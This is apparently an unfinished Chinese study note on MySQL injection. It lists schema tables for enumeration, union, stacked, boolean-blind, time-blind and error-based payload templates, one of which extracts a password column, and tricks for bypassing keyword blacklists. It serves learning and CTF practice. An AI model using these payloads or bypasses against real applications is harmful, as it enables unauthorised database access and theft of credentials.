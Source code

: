 #  SQL注入中的可利用的库表和列

`information_schema.tables` *所有库和表的统计*

    table_schema  
    table_name  
`information_schema.columns` *包含库名，表名，列名*

    table_schema 
    table_name
    column_name
`mysql.innodb_table_stats`

     table_name 
     database_name

`mysql.innodb_index_stats` 
    
    table_name 
    database_name
`sys.schema_table_statistics` 

    table_schema 
    table_name
`sys.schema_table_statistics_with_buffer` 

    table_schema 
    table_name
`sys.schema_auto_increment_columns` 

    table_schema 
    table_name


# 注入前的基本功

## 何种注入类型
主要分为字符型注入和数字型注入

在注入点用单引号双引号或单纯数字测试即可得出

## 基础语法

SQL语句的注释有 

`#`

 `--`

 `/*.....*/`

 ---


`limit` 来获取想要的数据

`select a from b limit 0,2`

从第一行开始获取前两行的数据



## 查询的表有多少列

在已经有注入点的前提下，利用`union`或者`order by`来判断列数

`select a from b union select 1,2,3;`

因为`union`要求上下两张表的列数相同，不同时则报错

---

`select a from b order by 1;`

`order by`的作用是将查询的表根据某一列来排序，当需要用来排序的那一列不存在的时候就会报错


##  关键字黑名单的绕过
   1. Tab和()可以用来代替空格
   2. 单次删除关键字可以采用双写绕过
   3. 多次删除关键字可以大小写并用来绕过
   4. 利用内联注释，即 `/*.....*/`也可以绕过部分关键字检测
   5. 利用`handler`来获取表的数据
   6. `=`的过滤可以用`in()`和`like`来代替
   7. `ascii()`的过滤可以用`hex()`,`ord()`等等来代替，本质是将字符转为数值
   

## handler的使用

    HANDLER tbl_name OPEN [ [AS] alias]
 
    HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
        [ WHERE where_condition ] [LIMIT ... ]
    HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
        [ WHERE where_condition ] [LIMIT ... ]
    HANDLER tbl_name READ { FIRST | NEXT }
        [ WHERE where_condition ] [LIMIT ... ]
    
    HANDLER tbl_name CLOSE

    通过HANDLER tbl_name OPEN打开一张表，无返回结果，实际上我们在这里声明了一个名为tb1_name的句柄。
    通过HANDLER tbl_name READ FIRST获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
    通过HANDLER tbl_name CLOSE来关闭打开的句柄。

    通过索引去查看的话可以按照一定的顺序，获取表中的数据。
    通过HANDLER tbl_name READ index_name FIRST，获取句柄第一行（索引最小的一行），NEXT获取下一行，PREV获取前一行，LAST获取最后一行（索引最大的一行）。

    通过索引列指定一个值，可以指定从哪一行开始。
    通过HANDLER tbl_name READ index_name = value，指定从哪一行开始，通过NEXT继续浏览。



`handler`常见于过滤`selcet`的注入

```sql
handler a open;handler a read first;

```


# 判断采用何种注入方法
## 联合注入

最简单的一种注入，利用`union`进行联合查询,

`select a from b union select c from d;`

当使用这种查询语句时，将会返回两张表，即a和c

a是已经固定查询的，`union`后面的就是我们的操作空间

```sql
首先，判断列数，假设是三列
select a from b union select 1,2,3,4;
则在此时报错，我们得知是三列

获取关键信息，例如获取当前库下的所有表名
select a from b union select 1,2,group_concat(table_name) from infromation_schema.tables where table_schema=database();

从已知表名获取列名，假设我们已得知一表名为'TA'
select a from b union select 1,2,group_concat(column_name) from infromation_schema.columns where table_name='TA';

获取数据，假设我们得知列名为'passwd'
select a from b union select 1,2,group_concat(passwd) from TA;
```

## 堆叠注入

所谓堆叠注入，即执行多条SQL语句

`select a from b;show databases;`

是相当容易的注入，自然也极少出现

一旦出现堆叠注入，我们可以执行相当多的命令，插入删除等等

## 布尔盲注

存在测试点，但不返回查询结果，仅返回1或0，即可采用布尔盲注

比方说一个注入点，当我们输入正确值和错误值时返回的数据包长度不同

那么反复试错便可得到我们想要的数据，就像爆破密码一样

`select a from b and c;`

对于上面这句SQL语句，如果c大于0，那么语句会正常执行，否则不执行

在利用时，不止有`and`，`or`等等也能够用来布尔盲注



在布尔盲注中，常用的函数有如下

    ascii(str) , 返回字符的ascii码值
    length(str) , 返回字符串长度
    left(str, len) , 返回从字符串左边开始一定长度的子字符串
    right(str, len) , 返回从字符串右边开始一定长度的子字符串
    substr(str, pos [,len]) , 从字符串某处开始截取到最后或一定长度
        注意，str第一个字符的标号是1不是0，截取时包含pos所指的字符
        pos可以取负数，取负则从右边开始数，但还是往右边截取
    mid(str, pos [,len]), 效果同substr()

    
## 时间盲注

时间盲注与布尔盲注大同小异

对于一个注入点，无论如何注入都返回相同的内容，那么我们就可以尝试时间盲注

时间盲注要求使用`sleep()`函数

常见的有`select a from b and if(length(database())>5, 1, sleep(5));`

    if(expr1, expr2, expr3) , 如果expr1成立， 返回expr2, 否则返回expr3

通过数据包的返回时间来盲注

## 报错注入

网站页面会将SQL查询语句的报错信息返回到用户界面，此时即可报错注入

常见的有

    and extractvalue(1, concat(0x7e, (payload), 0x7e));
    payload中的数据将会以报错的语句出现，

    and updatexml(1, concat(0x7e, (payload), 0x7e), 1);

[更具体的参考此处](https://cloud.tencent.com/developer/article/1630134)

## 无列名注入



# 尚在更新中

